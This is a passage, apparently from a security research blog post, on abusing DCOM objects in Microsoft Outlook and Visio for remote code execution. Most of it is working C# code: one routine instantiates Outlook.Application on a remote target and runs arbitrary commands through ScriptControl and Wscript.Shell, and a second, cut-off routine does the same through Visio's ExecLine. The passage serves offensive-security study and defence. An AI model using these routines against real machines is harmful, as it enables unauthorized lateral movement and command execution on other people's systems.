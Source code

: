 Of course, the `Shell.Application` COM object is not the only one that could give an attacker code execution capabilities. `ScriptControl` is another object that can be abused to execute arbitrary code via Office Macros.

```cs
public static void OutlookScriptEx(string target, string binary, string arg)
{
    try
    {
        var type = Type.GetTypeFromProgID("Outlook.Application", target);
        var obj = Activator.CreateInstance(type);

        try
        {
            var scriptControl = obj.GetType().InvokeMember("CreateObject", BindingFlags.InvokeMethod, null, obj,
                new object[] { "ScriptControl" });
            scriptControl.GetType().InvokeMember("Language", BindingFlags.SetProperty, null, scriptControl,
                new object[] { "VBScript" });
            var code = $"CreateObject(\"Wscript.Shell\").Exec(\"{binary} {arg}\")";
            scriptControl.GetType().InvokeMember("AddCode", BindingFlags.InvokeMethod, null, scriptControl,
                new object[] { code });
        }
        catch
        {
            Console.WriteLine(" [-] FATAL ERROR: Unable to load ScriptControl on a 64-bit Outlook");
            Environment.Exit(1);
        }
    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```

Visio, although not used as other Office applications, serves two interesting methods to execute arbitrary code. The first one, `ExecLine`, can execute arbitrary code from a string.

Although a single line of PowerShell is often more than enough to achieve nice results, the research warns that `ExecLine` can execute just a line of code. In case it's strictly necessary to split the code in multiple lines, they must be divided using ":". 


```cs
public static void VisioExecLine(string target, string binary, string arg)
{
    var code = $"CreateObject(\"Wscript.Shell\").Exec(\"{binary} {arg}\")";
    try
    {
        var type = Type.GetTypeFromProgID("Visio.InvisibleApp", target);
        if (type == null)
        {
            Console.WriteLine(" [x] Visio not installed");
            return;
        }

        var obj = Activator.CreateInstance(type);

        var docs = obj.GetType().InvokeMember("Documents", BindingFlags.GetProperty, null, obj, null);
        var doc = docs.GetType().InvokeMember(@"Add", BindingFlags.InvokeMethod, null, docs, new object[] { "" });
```
